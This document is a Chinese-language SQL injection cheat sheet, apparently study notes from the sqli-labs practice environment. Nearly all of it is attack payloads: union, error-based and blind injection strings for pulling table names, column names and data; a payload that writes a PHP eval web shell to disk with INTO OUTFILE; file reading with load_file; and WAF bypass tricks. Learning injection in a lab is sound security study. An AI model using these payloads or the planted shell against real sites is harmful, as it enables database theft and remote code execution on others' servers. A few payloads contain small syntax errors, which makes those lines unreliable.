

# 常用SQL语句

#### MySql默认字段



## 限制

#### 一行显示

```sql
select group_concat(table_name) from information_schema.tables where table_schema='test' --+
```

#### 显示不完全

```sql
select substr(group_concat(table_name),1,15) from information_schema.tables where table_schema='test' --+

```

## 联合注入

#### 爆表名

```sql
union select table_name from information_schema.tables where table_schema='test' limit 0,1 --+
```

#### 爆字段名

```sql
union select column_name from information_schema.columns where table_schema='test' and table_name='users' limit 0,1 --+
```

#### 爆数据

```sql
union select username from users limit 0,1 --+
```

## 报错注入

#### updatexml

```sql
and updatexml(1,concat(0x7e,(select database()),0x7e),1) --+
```

#### extractvalue

```sql
and extractvalue(1,concat(0x7e,(select database))) --+
```

#### floor

```sql
and select concat(*),(concat(floor(rand(0)*2),(select version())))x from user group by x; --+
```

## &#x20;盲注

#### 常用函数

```sql
//通过长度判断 length()
length(database())>=x
//通过字符判断 substr()
substr(database(),1,1) =‘s’
//通过 ascII 码判断 ascii()
ascii(substr(database(),1,1)) =x

```

-   left(m,n) 从左向右截取字符串m返回前n位
-   substr(m,1,1) 取字符串m的左边第一位器，1字长的字符串
-   ascii(m) 返回字符串m的ASCII码
-   if(str1,str2,str3) 如果str1正确就执行str2，否则执行str3
-   sleep(m) 使程序暂停m秒
-   length(m) 返回字符串m的长度
-   count(column\_name) 返回指定列的值的数目

#### boolean盲注

```sql
and ascii(substr((select table_name from information_schema.tables where table_schema='test' limit 0,1),1,1))=1 --+

```

#### 时间盲注

```sql
and if(ascii(substr((select table_name from information_schema.tables where table_schema='test' limit 0,1),1,1))=116,sleep(5),1)
```

## 写入文件

#### 条件

-   知道绝对路径

#### 写入文件

```sql
union select 1,'<?php @eval($_POST["cmd"])?>',3 INTO outfile "E:\\phpStudy\\PHPTutorial\\WWW\\sqli\\Less-7\\shell.php" --+

```

#### 读取文件

```sql
union select 1,load_file('E:\phpStudy\PHPTutorial\WWW\sqli\Less-7\result.txt'),3 --+
```

## 一句话爆表名/字段名

```sql
//爆表名
select group_concat(table_name) from information_schema.tables where table_schema=database()
//爆字段名字
select group_concat(column_name) from information_schema.columns where table_schema=database()and table_name=(select table_name from information_schema.tables where table_schema=database() limit 1,1 )
```

## WAF绕过

-   双写，大小写，替换关键字，编码绕过注入，十六进制编码，Unicode编码
-   使用注释，普通注释，内联注释
-   等价函数和命令，符号 and和or可用 &&和||&#x20;
-   生僻函数&#x20;
-   特殊符号
